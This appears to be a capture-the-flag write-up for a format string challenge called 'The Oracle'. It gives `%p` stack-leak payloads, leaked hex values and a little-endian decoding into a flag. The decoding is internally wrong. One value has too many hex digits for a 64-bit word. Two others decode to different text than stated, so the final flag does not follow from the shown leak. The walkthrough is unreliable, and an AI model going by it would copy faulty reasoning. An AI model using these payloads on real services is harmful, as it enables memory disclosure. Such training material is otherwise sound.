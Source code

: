 # Challenge Name: The Oracle

**Category:** Pwn / Binary Exploitation  

---
## Description
> In a forgotten corner of the network, an ancient Oracle has awakened. It is said to hold all knowledge, past and present, within its memory. However, the Oracle is fickle and speaks in a cryptic tongue. If you format your questions with precision, it may inadvertently reveal a secret not meant for mortal ears—the flag. Approach with reverence and a keen eye for patterns.  
>
> `nc <server-ip> <port>`

---
## Organizer Notes
This is a **format string vulnerability** challenge. The player interacts with an oracle program that reads input and prints it directly without sanitization, exposing the contents of the stack. The goal is to leak and decode the flag from memory.

---
## Solution

### 1. Identifying the Vulnerability
Upon connecting to the service:

```
nc <server-ip> <port>
```

The program greets you:

```
Welcome to the Oracle's Chamber!
The Oracle knows all secrets...
What secret do you wish to know?
```

Testing with:
```
%p %p %p %p
```
reveals hexadecimal memory values — confirming a **format string vulnerability** caused by unsafe `printf(user_input)` usage.

### 2. Dumping the Stack
By sending a long sequence of `%p` format specifiers:
```
%p %p %p %p %p %p %p %p %p %p %p %p %p ...
```
the oracle “speaks” dozens of memory addresses and raw values, some of which contain our hidden flag.

### 3. Finding the Flag in Memory
Carefully scanning the output, some `0x` values appear to hold ASCII characters when interpreted in **little-endian** byte order.

From the leak:
```
0x68637b6674636270 0x5f79625f6e33736f 0x6333472305f336874 0x7d336c
```

Decoding little-endian:
- `0x68637b6674636270` → `pbctf{ch`
- `0x5f79625f6e33736f` → `0s3n_by_`
- `0x6333472305f336874` → `th3_0r4`
- `0x7d336c` → `cl3}`

### 4. Flag
```
pbctf{ch0s3n_by_th3_0r4cl3}
```

## Deployment Notes
- Compiled with:
```
gcc -o oracle oracle.c -no-pie -fno-stack-protector
```
- Flag stored in a stack variable so it appears in memory dumps.
- Works on Linux x86_64.